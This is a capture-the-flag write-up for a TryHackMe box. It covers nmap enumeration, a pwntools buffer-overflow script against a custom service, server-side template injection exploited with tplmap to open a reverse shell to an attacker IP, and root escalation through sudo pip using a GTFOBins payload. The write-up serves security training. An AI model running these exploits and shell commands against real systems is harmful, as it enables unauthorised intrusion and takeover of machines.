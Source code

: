 # THM NoNameCTF Writeup
## Enumeration
```
nmap -sCV -oN nmap/NoNameCTF <ip>
```
### Result
```
Nmap scan report for 10.10.107.235
Host is up (0.36s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT      STATE    SERVICE       VERSION
22/tcp    open     ssh           OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:57:3f:cc:86:39:04:3b:f0:e6:46:bf:72:51:64:0b (RSA)
|   256 81:05:75:ad:78:83:62:b2:06:41:5b:e5:a5:a9:82:4d (ECDSA)
|_  256 0f:8d:0e:19:e9:c7:cc:14:39:e9:34:60:5c:f7:aa:fe (ED25519)
80/tcp    open     http          Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
146/tcp   filtered iso-tp0
2222/tcp  open     EtherNetIP-1?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, NULL, RPCCheck, SSLSessionReq: 
|     Welcome to the NoNameCTF!
|     Choose an action:
|     regiser: 1
|     login: 2
|     get_secret_directory: 3
|     store_your_buffer: 4
|   GetRequest, HTTPOptions, Help, RTSPRequest: 
|     Welcome to the NoNameCTF!
|     Choose an action:
|     regiser: 1
|     login: 2
|     get_secret_directory: 3
|     store_your_buffer: 4
|     Wrong option
|_    Good bye
6666/tcp  filtered irc
8652/tcp  filtered unknown
9090/tcp  open     http          Tornado httpd 6.0.3
|_http-title: Site doesn't have a title (text/plain).
|_http-server-header: TornadoServer/6.0.3
49175/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port2222-TCP:V=7.92%I=7%D=11/8%Time=618932E7%P=x86_64-pc-linux-gnu%r(NU
SF:LL,7B,"Welcome\x20to\x20the\x20NoNameCTF!\r\nChoose\x20an\x20action:\r\
<SNIP>
\n>\x20login:\x202\r\n>\x20get_secret_directory:\x203\r\n>\x20store
SF:_your_buffer:\x204\r\n");

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

We got 4 open ports, 22,80,2222,9090. Let's take a look at it one by one. First, nothing special about port 22. Next, port 80 is running website, must be there for a reason. Third, Port 2222 looks like running a unknown service, leave it first. Last, port 9090 running website using Tornado with version 6.0.3.

### Port 80
Looking at port 80 website's source code, we found a potential hint. Looks like hinting about buffer overflow. 
![3f64f75b1b6315cc94044f566a13328e.png](/_resources/3f64f75b1b6315cc94044f566a13328e.png)

### Port 2222
Looking at port 2222, we can try connect to it via netcat:
```
nc <ip> 2222
```
Looks like it is providing some services. The **get_secret_directory** looks interesting but it was prompting us to login before using that service. We will come back to this later.

![c54ca29dcc6d143e6046d2661b512fe7.png](../../_resources/c54ca29dcc6d143e6046d2661b512fe7.png)

### Port 9090
Upon browsing to port 9090 website, we've encountered an error.

![6667948cfd36e9a2914a933b392fe3b9.png](../../_resources/6667948cfd36e9a2914a933b392fe3b9.png)

For now we have gathered some initial information about each open ports. Let's do a quick summarize, port 80 source code indicating we might need to do buffer overflow, since buffer overflow less likely will be happen in websites, let's now focus on port 2222.

### Exploiting port 2222
Based on the port 80 source code hint given, we can guess that vulnerable point was **store_your_buffer** functionality and the amount of buffer to overflow it most likely will be greater than 1000. After interacting a while with it, the flow to exploit it to get secret directory probably is:
```
Register an account -> Login -> Buffer Overflow on store_your_buffer -> get_secret_directory
```

I have wrote a script to automate this process:

```
#!/usr/bin/env python3

from pwn import *
import argparse
import pdb

parser = argparse.ArgumentParser(description="BOF Exploit")
parser.add_argument("host", help="The host IP address")
parser.add_argument("port", help="The host port")
args=parser.parse_args()

# Connection
target = remote(args.host, args.port)

# Registration
print("[+] Default hardcoded credential: anonymous:anonymous123")
print("[+] Registering using default hardcoded credential")
target.recvuntil(b"store_your_buffer: 4")
target.sendline(b'1')
target.recvuntil(b'Enter an username:')
target.sendline(b'anonymous')
target.recvuntil(b'Enter a password:')
target.sendline(b'anonymous123')

# Login
print("[+] Loging using registered credential")
target.recvuntil(b"store_your_buffer: 4")
target.sendline(b'2')
target.recvuntil(b'Username:')
target.sendline(b'anonymous')
target.recvuntil(b'Password:')
target.sendline(b'anonymous123')

# BOF
print("[+] Buffer Overflowing 'store_your_buffer' functionality")
target.recvuntil(b"store_your_buffer: 4")
target.sendline(b'4')
target.recvuntil(b'Enter your buffer:')
buffer = b"A"*1500
target.sendline(buffer)

# Get secret
print("[+] Getting secret directory")
target.recvuntil(b'store_your_buffer: 4\r\n')
target.sendline(b'3')
print("[*] Success !!!\n")
print(target.recvline().decode("utf-8"))
```

Basically the script follows the flow i mentioned above and overflow the vulnerable functionality with 1500 bytes. We just need to supply the machine IP and port to execute this exploit.

```
$ python exploit.py 10.10.107.235 2222
[+] Opening connection to 10.10.107.235 on port 2222: Done
[+] Default hardcoded credential: anonymous:anonymous123
[+] Registering using default hardcoded credential
[+] Loging using registered credential
[+] Buffer Overflowing 'store_your_buffer' functionality
[+] Getting secret directory
[*] Success !!!

My secret in the port 9090 is: /xxxxx

[*] Closed connection to 10.10.107.235 port 2222
```

Yay ! Now we got the secret directory.
***
## Initial Foothold
Let's browse to port 9090 website with the secret directory:

![6ede18c18e56f998156807e30828299c.png](../../_resources/6ede18c18e56f998156807e30828299c.png)

Nothing interesting, how about the source code?
![32599adf76a4a76c570d55a65701de96.png](../../_resources/32599adf76a4a76c570d55a65701de96.png)

Yes ! We got a parameter hidden in source code. After some testing, looks like it was vulnerable to Server Side Template Injection (SSTI):
```
http://10.10.107.235:9090/xxxxx/?hackme={{7*7}}
```
![b0ddea2d264559572693e4cc6587e728.png](../../_resources/b0ddea2d264559572693e4cc6587e728.png)

Without further ado, let's spawn a reverse shell using **tplmap**:
#### Notes: If you have problem installing tplmap, take this: [solution](https://blog.csdn.net/weixin_46041615/article/details/121111050), you're welcome
```
python2 tplmap.py -u http://10.10.107.235:9090/xxxxx/?hackme= --reverse-shell 10.13.28.126 4567
```

Setup netcat to listen on certain port:
```
nc -lvnp 4567
```

Execute the tplmap's command and BOOM ! Reverse shell achieved !
![ac8ecc09a421a28a018da587f359cb13.png](../../_resources/ac8ecc09a421a28a018da587f359cb13.png)
***
## Privilege Escalation
> Classic <3 - GTFOBins
```
sudo -l
```
![abacfee0f5d6a41063588edd829a7efb.png](../../_resources/abacfee0f5d6a41063588edd829a7efb.png)

### Exploit 
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo /usr/bin/pip install $TF
```

### Rooted !
![1ca5eba662366c1f2fcc22fbe8148980.png](../../_resources/1ca5eba662366c1f2fcc22fbe8148980.png)


To whoever reading this till here, thank you so much and have a nice day !
